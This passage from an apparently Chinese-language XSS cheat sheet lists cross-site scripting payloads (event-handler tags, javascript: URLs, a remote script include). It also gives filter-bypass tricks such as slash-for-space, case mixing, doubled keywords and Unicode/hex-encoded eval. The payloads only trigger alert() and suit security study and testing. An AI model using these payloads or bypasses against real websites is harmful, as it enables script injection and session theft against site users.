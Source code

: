 7. `<iframe> onload=alert('hack');></iframe>`
8. `<video><source onerror="alert('hack')">`
9. `<audio src=x onerror=alert('hack');>`
10. `<body/onload=alert('hack');>`
11. `<textarea onfocus=alert(1); autofocus>`

`JavaScript`伪协议

12. `<a href="javascript:alert(1);">xss</a>`
13. `<iframe src=javascript:alert(1);></iframe>`
14. `<form action="javascript:alert(1)"><input type=submit>`

连接远程`javascript`文件

15. `<script src='/*.js'></script>`

### 绕过方法

1. 当过滤空格时，用`/`代替空格

`<img/src="x"/onerror=alert(1);>`

或者用换行的Unicode编码`%0A`代替空格

`<svg%0Aonload=alert();>`

2. 当过滤关键字时，有多种方式：

- 大小写绕过 `<ImG sRc=x OnerRoR=alert(1);>`
- 双写关键字 `<imimgg srsrcc=x onerror=alert(1);>`
- ~~字符拼接~~ 本地测试无效？
- 混入其他字符 `<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>`
- 编码绕过 

Unicode `<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">`

`<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>`

可以在[Unicode转码工具](https://www.toolhelper.cn/EncodeDecode/UnicodeChinese)进行转换
![unicode](./xss_fig/unicode.png)
